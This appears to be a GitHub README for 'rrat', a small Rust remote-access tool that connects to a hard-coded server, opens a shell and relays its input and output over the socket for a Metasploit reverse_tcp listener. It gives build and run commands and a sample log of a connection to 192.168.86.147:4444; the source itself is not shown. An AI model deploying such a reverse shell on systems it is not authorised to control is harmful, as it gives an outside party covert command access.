 
# rrat

An rust CLI app that connects to a server then opens a shell and redirects stdin/stdout through the network socket.
Can be used in conjunction with the metasploit framework reverse_tcp shell listener.


## Building

Ensure rust is installed (https://www.rust-lang.org/) then run:

```bash
$ cargo build
```

The host and port are hard-coded towards the top of main.rs so you'll want to change these before building.

## Usage / running

Output is written using the `env_logger` crate so by default you won't see anything unless you set the "RUST_LOG" environment variable.

To see output while running use:

```bash
$ RUST_LOG=rrat cargo run
```

or if running an already compiled executable:

```bash
$ RUST_LOG=rrat ./rrat
```

Example output after running `rrat` then starting a meterpreter listener.

```
DEBUG 2018-01-20T14:23:38Z: rrat: Starting connect loop to '192.168.86.147:4444'
 WARN 2018-01-20T14:23:38Z: rrat: Failed to connect, waiting before retry
DEBUG 2018-01-20T14:23:40Z: rrat: Starting connect loop to '192.168.86.147:4444'
 WARN 2018-01-20T14:23:40Z: rrat: Failed to connect, waiting before retry
DEBUG 2018-01-20T14:23:42Z: rrat: Starting connect loop to '192.168.86.147:4444'
DEBUG 2018-01-20T14:23:42Z: rrat: Setting read/write timeout...
DEBUG 2018-01-20T14:23:42Z: rrat: Connected to endpoint, starting shell
DEBUG 2018-01-20T14:23:42Z: rrat: Opening shell IO
DEBUG 2018-01-20T14:23:42Z: rrat: Beginning IO read/write loops
DEBUG 2018-01-20T14:23:42Z: rrat: Waiting for threads to finish.
```

For details: https://doc.rust-lang.org/log/env_logger/index.html